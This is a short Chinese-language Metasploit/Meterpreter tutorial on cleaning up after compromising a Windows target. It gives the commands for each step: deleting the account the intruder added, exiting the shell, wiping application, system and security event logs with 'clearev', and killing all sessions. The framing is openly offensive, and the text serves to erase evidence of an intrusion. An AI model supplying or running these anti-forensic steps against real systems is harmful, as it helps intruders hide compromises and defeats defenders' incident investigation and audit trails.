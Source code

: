 # MSF-Meterpreter清理日志

在我们用MSF成功对目标进行了渗透之后，不要忘记要清理渗透过程中留下的日志，下面就如何清理日志和大家分享下。

步骤如下：

- 删除之前添加的账号
- 删除所有在渗透过程中使用的工具
- 删除应用程序、系统和安全日志
- 关闭所有的Meterpreter连接

## 删除之前添加的账号

```
C:\Windows\system32> net user 添加的用户名 /del
```

## 退出目标服务器的shell

```
C:\Windows\system32> exit
或者
C:\Windows\system32> logoff
```

## 删除日志

```
meterpreter > clearev
```

## 退出meterpreter shell

```
meterpreter > exit
```

## 查看所有的MSF连接

```
msf exploit(multi/handler) > sessions
```

## 关闭所有的MSF链接

```
msf exploit(multi/handler) > sessions -K
```

## 